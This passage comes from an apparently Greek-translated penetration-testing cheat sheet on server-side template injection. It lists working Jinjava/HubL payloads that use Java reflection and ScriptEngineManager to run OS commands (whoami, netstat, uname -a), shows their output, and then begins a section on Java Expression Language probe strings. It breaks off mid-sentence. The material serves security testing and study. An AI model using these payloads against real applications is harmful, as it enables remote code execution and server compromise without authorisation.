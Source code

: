 ```java



{% raw %}
{% %} and {{ }} blocks
{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}
{% endraw %}


{{ji.render('{{1*2}}')}}
//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
//output: xxx

//RCE
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
//output: java.lang.UNIXProcess@1e5f456e

//RCE with org.apache.commons.io.IOUtils.
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//output: netstat execution

//Multiple arguments to the commands
Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
**Περισσότερες πληροφορίες**

- [https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)

### Expression Language - EL (Java)

- `${"aaaa"}` - "aaaa"
- `${99999+1}` - 100000.
- `#{7*7}` - 49
- `${{7*7}}` - 49
- `${{request}}, ${{session}}, {{faceContext}}`

Expression Language (EL) είναι μια θεμελιώδης δυνατότητα που διευκολύνει την αλληλεπίδραση μεταξύ της παρουσίασης (όπως οι ιστοσελίδες) και της λογικής εφαρμογής (όπως τα managed beans) στο JavaEE. Χρησιμοποιείται εκτενώς σε πολλές τεχνολογίες JavaEE για να απλοποιήσει αυτή την επικοινωνία. Οι βασικές τεχνολογίες JavaEE που χρησιμοποιούν EL περιλαμβάνουν:
